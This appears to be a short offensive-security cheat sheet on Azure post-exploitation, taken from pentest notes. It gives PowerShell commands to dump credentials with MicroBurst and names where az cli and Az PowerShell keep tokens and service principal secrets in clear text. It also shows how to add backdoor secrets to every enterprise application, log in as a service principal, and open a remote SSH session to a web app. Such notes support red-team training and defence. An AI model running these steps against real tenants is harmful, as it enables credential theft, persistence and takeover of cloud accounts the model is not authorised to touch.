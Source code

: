 ## Stealing Tokens

* Get-AzurePasswords
    ```powershell
    Import-Module Microburst.psm1
    Get-AzurePasswords
    Get-AzurePasswords -Verbose | Out-GridView
    ```

### Stealing tokens from az cli

* az cli stores access tokens in clear text in **accessTokens.json** in the directory `C:\Users\<username>\.Azure`
* azureProfile.json in the same directory contains information about subscriptions.

### Stealing tokens from az powershell

* Az PowerShell stores access tokens in clear text in **TokenCache.dat** in the directory `C:\Users\<username>\.Azure`
* It also stores **ServicePrincipalSecret** in clear-text in **AzureRmContext.json** 
* Users can save tokens using `Save-AzContext`


## Add credentials to all Enterprise Applications

```powershell
# Add secrets
PS > . C:\Tools\Add-AzADAppSecret.ps1
PS > Add-AzADAppSecret -GraphToken $graphtoken -Verbose

# Use secrets to authenticate as Service Principal
PS > $password = ConvertTo-SecureString '<SECRET/PASSWORD>' -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential('<AppID>', $password)
PS > Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant '<TenantID>'
```

## Spawn SSH for Azure Web App

```powershell
az webapp create-remote-connection --subscription <SUBSCRIPTION-ID> --resource-group <RG-NAME> -n <APP-SERVICE-NAME>
```

## Azure Storage Blob

* Blobs - `*.blob.core.windows.net`
* File Services - `*.file.core.windows.net`
* Data Tables - `*.table.core.windows.net`
* Queues - `*.queue.core.windows.net`

### Enumerate blobs
